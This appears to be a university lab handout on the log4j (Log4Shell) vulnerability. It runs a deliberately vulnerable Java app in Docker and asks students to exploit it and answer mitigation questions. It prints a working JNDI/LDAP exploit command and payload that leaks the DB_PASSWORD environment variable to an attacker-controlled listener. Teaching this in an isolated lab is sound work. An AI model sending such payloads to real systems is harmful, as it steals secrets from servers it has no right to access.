Do some research: What versions of log4j are affected by this vulnerability?
====

This lab uses a Docker Compose configuration to simulate a network with an attacker and a target.
The target runs a https://github.com/leonjza/log4jpwn[known-vulnerable, example application] written by leonjza.
This example application logs the `User-Agent` header, request path, and a query string parameter of a request as seen below:

.App.java
[source, java]
----
package com.sensepost.log4jpwn;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

import static spark.Spark.*;

public class App {
    static final Logger logger = LogManager.getLogger(App.class.getName());

    public static void main(String[] args) {

        port(8080);

        get("/*", (req, res) -> {

            String ua = req.headers("User-Agent");
            String pwn = req.queryParams("pwn");
            String pth = req.pathInfo();

            System.out.println("logging ua: " + ua);
            System.out.println("logging pwn: " + pwn);
            System.out.println("logging pth: " + pth);

            // trigger
            logger.error(ua);
            logger.error(pwn);
            logger.error(pth);

            return "ok: ua: " + ua + " " + "pwn: " + pwn + " pth:" + pth;
        });
    }
}
----

[IMPORTANT.deliverable]
====
What port does our vulnerable app run on? 
====

Our attacker container has https://github.com/leonjza/log4jpwn/blob/master/pwn.py[the `pwn.py` script], also by leonjza, which does two things:

. Runs a fake LDAP server in the background on port 8888
. Sends a request with the JNDI URI referencing the fake LDAP server asking for a Java value to leak
. Parses and prints the response

Using this setup we can show how log4j can be used to leak sensitive information from running processes.
We will use it to leak the value of the environment variable `DB_PASSWORD`.
As it isn't uncommon to store secrets in environment variables on running containers, this should suffice to see just how devastating this exploit can be.

Start by downloading https://github.com/rxt1077/it230/blob/main/labs/log4j.zip?raw=true[the zip archive of this lab] and unzipping it in a directory where you have write permissions and can navigate to in a terminal application. Once you've done that, you can bring the lab up by typing `docker-compose up` in that directory. Output should look similar to what you see below:

[source, console]
----
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose up
[+] Running 2/0
 - Container log4j-target-1    Created                                                            0.0s
 - Container log4j-attacker-1  Created                                                            0.0s
Attaching to log4j-attacker-1, log4j-target-1
log4j-attacker-1 exited with code 0
log4j-target-1    | WARNING: sun.reflect.Reflection.getCallerClass is not supported. This will impact performance.
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.util.log - Logging initialized @815ms to org.eclipse.jetty.util.log.Slf4jLog
log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - == Spark has ignited ...
log4j-target-1    | [Thread-0] INFO spark.embeddedserver.jetty.EmbeddedJettyServer - >> Listening on 0.0.0.0:8080
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - jetty-9.4.z-SNAPSHOT; built: 2019-04-29T20:42:08.989Z; git: e1bc35120a6617ee3df052294e433f3a25ce7097; jvm 11.0.14+9-post-Debian-1deb11u1
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - DefaultSessionIdManager workerName=node0
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - No SessionScavenger set, using defaults
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.session - node0 Scavenging every 600000ms
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.AbstractConnector - Started ServerConnector@401fccd3{HTTP/1.1,[http/1.1]}{0.0.0.0:8080}
log4j-target-1    | [Thread-0] INFO org.eclipse.jetty.server.Server - Started @960ms
----

You'll notice that the `target` service is up and running the `log4jpwn` example application and that its output goes straight to the screen.
The `attacker` service will exit immediately as it is meant for interactive use and doesn't run anything in the background.
In another terminal, navigate to the lab directory again and run `docker-compose run attacker bash`. This will be the shell that you use to attack the target:

[source, console]
----
PS C:\Users\rxt1077\it230\labs\log4j> docker-compose run attacker bash
root@3971c61303c8:/# <1>
----
<1> Notice how the prompt changes once we are in the container

In the attack shell, use the `ip` command to determine the IPv4 address of your container.
We will need this since the `attacker` container will be listening for connections from `target` once the exploit string is logged.

[source, console]
----
root@3971c61303c8:/# ip addr show dev eth0
58: eth0@if59: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet <IP_ADDRESS>/16 brd 172.20.255.255 scope global eth0 <1>
       valid_lft forever preferred_lft forever
----
<1> You're IP is _not_ `<IP_ADDRESS>` it is whatever you find in its place!

Once you have the IP address, you can run the `pwn.py` script on the `attacker` container and you should be able to read the `DB_PASSWORD` environment variable on the `target` container.

[source, console]
----
root@3971c61303c8:/# python /pwn.py --listen-host <IP_ADDRESS> --exploit-host <IP_ADDRESS> --target http://target:8080 --leak '${env:DB_PASSWORD}' <1>
 i| starting server on <IP_ADDRESS>:8888
 i| server started
 i| setting payload in User-Agent header
 i| sending exploit payload ${jndi:ldap://<IP_ADDRESS>:8888/${env:DB_PASSWORD}} to http://target:8080/
 i| new connection from <TARGETS_IP>:44050
 v| extracted value: <DB_PASSWORD> <2>
 i| request url was: http://target:8080/
 i| response status code: 200
----
<1> Docker Compose will resolve service names to IP addresses so the target URI doesn't require finding an IP
<2> The value of `DB_PASSWORD` can will be here.

[IMPORTANT.deliverable]
====
What is the database password?
====

[IMPORTANT.deliverable]
====
What steps would you take to mitigate the risk of a deployed application having this vulnerability?
====

== Review Questions

[qanda]
What can MAC address spoofing allow an attacker to do? What steps can be taken to mitigate this risk?::
    {empty}
What is the difference between horizontal and vertical privilege escalation? Give an example of each.::
    {empty}
What is XSS and how can it be used in an attack?::
    {empty}
